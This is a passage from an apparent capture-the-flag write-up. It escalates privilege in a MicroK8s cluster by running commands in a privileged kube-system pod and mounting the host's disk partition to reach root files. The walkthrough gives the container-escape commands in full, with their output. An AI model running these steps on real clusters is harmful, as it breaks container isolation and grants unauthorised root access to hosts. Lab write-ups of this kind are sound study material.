 As the pod is running in the kube-system namespace, we'll first to have to set the default namespace to "kube-system" : 

```console
frank@dev-01:~$ microk8s kubectl config set-context --current --namespace=kube-system
Context "microk8s" modified.
```

We then start the exploit by running [`fdisk -l`](https://man7.org/linux/man-pages/man8/fdisk.8.html#OPTIONS) in the privileged container to show all available disk partitions, one of which will contain the host file system. Most examples of this exploit will target the `/dev/sda1` partition, but in our case it's `/dev/dm-0` :

```console
frank@dev-01:~$ microk8s kubectl exec -it calico-node-6595k -- fdisk -l
...snip...
Disk /dev/dm-0: 15 GiB, 16101933056 bytes, 31449088 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
...snip...
```

We then make a directory as a mount point, and mount the `/dev/dm-0` partition to the new directory (you could also run these commands within a shell session inside the container - you do you) :

```console
frank@dev-01:~$ microk8s kubectl exec -it calico-node-6595k -- mkdir /exploit-mount
frank@dev-01:~$ microk8s kubectl exec -it calico-node-6595k -- bash -c "mount /dev/dm-0 /exploit-mount/"
```

After launching a bash shell in the privileged container, we're at the same point as we were in the previous privesc example - this time the root flag is at `/exploit-mount/root/root.txt` :

```console
frank@dev-01:~$ microk8s kubectl exec -it calico-node-6595k /bin/bash
[root@dev-01 /]# ls -la /exploit-mount/root
total 32
drwx------  4 root root 4096 Oct 29 10:17 .
drwxr-xr-x 21 root root 4096 Oct 29 10:15 ..
lrwxrwxrwx  1 root root    9 Oct 29 10:17 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Oct  3 15:29 .ssh
-rw-------  1 root root  705 Oct 27 20:19 .viminfo
-rw-r--r--  1 root root   21 Oct 27 20:20 root.txt
drwxr-xr-x  5 root root 4096 Oct  3 16:53 snap
```

